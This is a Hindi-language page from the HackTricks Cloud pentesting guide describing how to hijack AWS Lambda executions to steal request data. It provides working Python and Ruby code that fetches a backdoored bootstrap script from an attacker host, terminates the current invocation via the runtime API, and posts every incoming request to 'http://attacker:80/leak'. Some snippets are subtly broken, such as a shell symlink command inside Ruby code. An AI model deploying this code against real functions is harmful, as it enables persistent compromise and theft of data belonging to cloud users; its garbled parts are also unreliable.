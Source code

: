 # AWS - लैम्बडा अनुरोध चोरी करें

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा एकल [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **तुरंत** मुझे **ट्विटर** पर फॉलो करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs के माध्यम से** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में सबमिट करें।

</details>

## परिचय <a href="#python-runtime" id="python-runtime"></a>

यह हमला मानता है कि आपके पास किसी प्रकार का **चल रहे लैम्बडा पर पहुंच** है।\
इसके अलावा, एक महत्वपूर्ण बात ध्यान में रखने की है कि **लैम्बडा आमंत्रण पूरी तरह से अलग नहीं हैं लेकिन अलग हैं**। वे एक ही क्रियान्वयन वातावरण में चल सकते हैं, हालांकि एक साथ नहीं। इस बात को ध्यान में रखते हुए, चलो उस वातावरण को विश्लेषण करना शुरू करते हैं।

### अलगाव

लैम्बडा अलगाव थी cgroups का उपयोग करती है:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

प्रिफिक्स 'सैंडबॉक्स' किसी सामान्य कंटेनर इंजन (डॉकर, पोडमैन, LXD, rkt) से मेल नहीं खाता था, यह एक प्रोप्रायटरी कंटेनर इंजन हो सकता है, जो आंतरिक रूप से एक खुला स्रोत कंटेनर रनटाइम जैसे [runC](https://github.com/opencontainers/runc) का उपयोग कर रहा हो सकता है।

### लैम्बडा कैसे काम करती है  <a href="#python-runtime" id="python-runtime"></a>

यह पायथन लैम्बडा आर्किटेक्चर प्रतीत होता है:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. एक प्रक्रिया जो कंटेनर के बाहर है, जिसे "**स्लाइसर**" के रूप में इनिट बाइनरी में संदर्भित किया जाता है, इनिट प्रक्रिया को साझा मेमोरी के माध्यम से आमंत्रण घटनाओं को भेजती है।
2. इनिट प्रक्रिया 9001 पोर्ट पर एक एचटीटीपी सर्वर सेटअप करती है (हार्डकोडेड), जिसमें कई बाहरी अंतःस्थापित अंतःस्थान होते हैं:
1. /2018-06-01/runtime/invocation/**next** - अगले आमंत्रण घटना प्राप्त करें
2. /2018-06-01/runtime/invocation/{invoke-id}/**response** - आमंत्रण के लिए हैंडलर प्रतिक्रिया वापस करें
3. /2018-06-01/runtime/invocation/{invoke-id}/**error** - एक निष्पादन त्रुटि वापस करें
3. `bootstrap.py` में निम्नलिखित लूप **नई घटना के लिए इनिट प्रक्रिया को क्वेरी करता है**, और फिर उसे हैंडल करने के लिए उपयोगकर्ता के फ़ंक्शन को कॉल करता है (यहां, आपके द्वारा अपलोड किए गए अनुरोध हैंडलर चलता है)।

<figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. **हैंडलर प्रतिक्रिया फिर से इनिट प्रक्रिया को भेजी जाती है** निम्नलिखित अंतःस्थानों में से किसी एक के माध्यम से:
1. `/{invoke-id}/response` - यदि उपयोगकर्ता हैंडलर सफलतापूर्वक निष्पादित हुआ है
2. `/{invoke-id}/error` - यदि आमंत्रण के हैंडलिंग के दौरान एक अपवाद उठाया गया था

## तकनीक सारांश <a href="#python-runtime" id="python-runtime"></a>

लैम्बडा फ़ंक्शन को भेजे जाने वाले डेटा को चोरी करने के लिए आपको खतरनाक कोड के साथ **बूटस्ट्रैप स्क्रिप्ट** को प्रतिस्थापित करने की संभावना होती है।\
ध्यान दें कि **अन्य भाषाओं में अन्य लैम्बडा में भी दूसरे इंजन** के पास एक और **बूटस्ट्रैप स्क्रिप्ट** होता है, इसलिए यह केवल पायथन में ही नहीं, **अन्य भाषाओं का उपयोग करने वाली अन्य लैम्बडा में भी किया जा सकता है**।

## पायथन <a href="#python-runtime" id="python-runtime"></a>

लैम्बडा से, **`/var/runtime/bootstrap.py`** डाउनलोड करें (या बस अपनी खुद की लैम्बडा चलाएं और उसे प्राप्त करें) और एक बैकडोर जो लैम्बडा को भेजे जाने वाले सभी डेटा को लीक करेगा, जोड़ें। आपको कुछ पं
```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```
या आप [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py) का उपयोग कर सकते हैं, जो पिछले तरीके के रूप में इनवोकेशन को समाप्त करेगा, नया बूटस्ट्रैप चलाएगा और जानकारी को निकालेगा।

{% hint style="warning" %}
यदि एक लैम्बडा फंक्शन का 5-15 मिनट तक उपयोग नहीं होता है, तो यह बंद हो जाएगा, और अगली बार जब यह इनवोक होगा, सभी परिवर्तन खो जाएंगे।
{% endhint %}

## रूबी रनटाइम <a href="#ruby-runtime" id="ruby-runtime"></a>

रूबी में, आपको बैकडोर करना चाहिए फ़ाइल है **`/var/runtime/lib/runtime.rb`** फ़ाइल (इसे सिस्टम से प्राप्त करें या अपने खुद के लैम्बडा को चलाएं)।

एक बैकडोर जोड़ना पायथन संस्करण में किया जाने जैसा ही सरल है:
```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin
context = lambdaContext.new(raw_request)
uri = URI('http://attacker:80/leak')
Net::HTTP.post(uri,JSON.generate(request))
[...]
```
तो, आपको बस वही करना होगा जो आपने पायथन संस्करण में किया था, बस एक बदलाव के साथ:

* **एक निर्देशिका में बैकडोर डाउनलोड करें**
* **सिंबलिंक** `/var/runtime/lib/*` को उस निर्देशिका के साथ जोड़ें जहां बैकडोर है
* मौजूदा लैम्बडा अवाहन को समाप्त करें
```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```
## संदर्भ

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>

